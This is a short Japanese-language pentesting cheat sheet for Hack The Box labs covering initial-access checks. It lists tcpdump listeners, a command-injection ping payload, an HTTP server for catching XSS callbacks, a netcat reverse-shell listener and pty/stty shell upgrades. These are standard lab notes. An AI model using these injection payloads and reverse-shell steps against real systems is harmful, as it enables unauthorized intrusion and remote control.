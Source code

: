 # 初回アクセス

## 疎通確認
HTBのVPNにつないでいればLAN内で完結する

#### ping
* ```tcpdump -i <ネットワークデバイス名> icmpでping```で受ける
* コマンドインジェクション等で```;ping -c 3 <受けのIPアドレス>; ```等を挿入してpingが届くか確認する

#### ldap
* ```tcpdump port ldap -i <ネットワークデバイス名> -X -s 1024```で受ける
* -Xでパケットの内容を16進数とASCIIで表示する
* -sでキャプチャのバッファサイズを指定する

#### http
* ```python3 -m http.server 80```でhttp通信を受けられる
* XSS等で攻撃対象でスクリプトを動かし```http://<ip>/```へアクセスさせてリクエストが届くか確認する


## Reverse Shell
侵害したシステムから攻撃者に対し接続を行うシェルを用いた通信方法
* nc -lvnp <ポート番号> でリッスンする
* [Reverse Shell](reverse_shell/)記載のような手法で侵入後のシステムからシェルを渡す

### Interactive shell
Tabの補完や矢印キーの使用、エラー出力等の閲覧などのためにInteractive Shellを確立する
```
python3 -c 'import pty; pty.spawn("bash")'
```
Reverse Shellで上記を実行し、Ctrl + Zでバックグラウンドにする
```
stty raw -echo; fg
```
で再度Reverse Shellに入る


